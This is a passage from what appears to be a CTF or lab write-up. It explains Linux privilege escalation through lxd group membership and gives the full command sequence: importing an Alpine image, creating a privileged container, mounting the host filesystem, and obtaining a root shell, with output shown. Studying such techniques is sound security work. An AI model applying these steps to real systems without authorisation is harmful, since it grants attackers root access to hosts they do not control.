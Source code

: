 Now unlike my past mistakes this time I started with the "id" command to check for any interesting groups that I am part of. And it paid off with some googling I find that there is a priv esc method for the users that are in the lxd group.

LXC (linux containers) is just another container technology like docker. It is used to create isolated environments with all the dependencies present. For more background information on what is all this and how is it usefull to us as well as the steps required to exploit it I found an [awesome article](https://www.hackingarticles.in/lxd-privilege-escalation/).

This article has about everything you will need to exploit the root part of this box. Here is my understanding of the exploit:

Lxd is a root process. Anyone in the lxd group can use the process as root user (so like SUID binaries right?). So first we create our own lxd image/container. We then transfer it to the target machine. After that we set the `security.privileged=true` which allows the root user of the container access to the actual root of the host. Remember that we are in the group of lxd and so we can can perform all these actions without the need for sudo. Next we mount the the whole system files inside our container meaning that we take the whole host file system and make a copy of it inside our container. From there we can then browse all the data inside all the directories that we don't even have the permission to read.
I think performing the exploit will make more sense so lets do that now.

[Reference](https://ubuntu.com/server/docs/containers-lxd)

Like instructed in the [article](https://www.hackingarticles.in/lxd-privilege-escalation/) we first git clone the [repository](https://github.com/saghul/lxd-alpine-builder.git) and run the script inside it as root.

Next we transfer the thus generated file which looks kinda like `alpine-v3.12-x86_64-20200913_1159.tar.gz`. After transferring it to the target machine we do the following steps.

```
lxc image import alpine-v3.12-x86_64-20200913_1159.tar.gz --alias myimage

lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
| myimage | d672a8b5660e | no     | alpine v3.12 (20200913_11:42) | x86_64       | CONTAINER | 3.05MB | Sep 13, 2020 at 10:04am (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+

lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
~ # whoami
whoami
root

```
